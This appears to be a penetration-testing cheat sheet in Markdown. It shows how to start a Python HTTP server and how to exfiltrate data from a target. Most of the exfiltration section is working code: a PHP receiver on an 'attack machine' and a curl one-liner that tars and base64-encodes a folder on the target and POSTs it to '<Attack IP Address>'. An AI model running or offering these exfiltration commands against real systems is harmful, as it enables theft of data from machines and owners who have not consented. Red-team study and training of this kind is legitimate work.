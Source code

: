 # Python HTTP Server
```bash
python3 -m http.server <Port #>
```
##### Older Kali systems
```bash
python -m SimpleHTTPServer <Port #>
```

# Data Exfiltration
### Exfiltrate Base64 encoded data via POST request over HTTPS to PHP server, with SSL certificate.
##### On attack machine, create a PHP file that will receive POST request and write data to a file.
```bash
# contact.php - see contact.php in DataExfiltation folder.
<?php file_put_contents('/tmp/datafolder.base64', file_get_contents('php://input')); ?>
```
[contact.php](DataExfiltration/contact.php)
##### From target, use curl to send POST request that tars and encodes the data.
```bash
curl --data "$(tar zcf - /tmp/datafolder | base64)" https://<Attack IP Address>/contact.php
```
##### From attack machine, decode file, redirect to tar, and extract.
```bash
cat /tmp/datafolder.base64 | base64 -d > datafolder.tar && tar xf datafolder.tar
```

### Data Exfiltration References
[POST HTTP](https://en.wikipedia.org/wiki/POST_(HTTP))

# References
[HTTPS encryption on the web](https://transparencyreport.google.com/https/overview)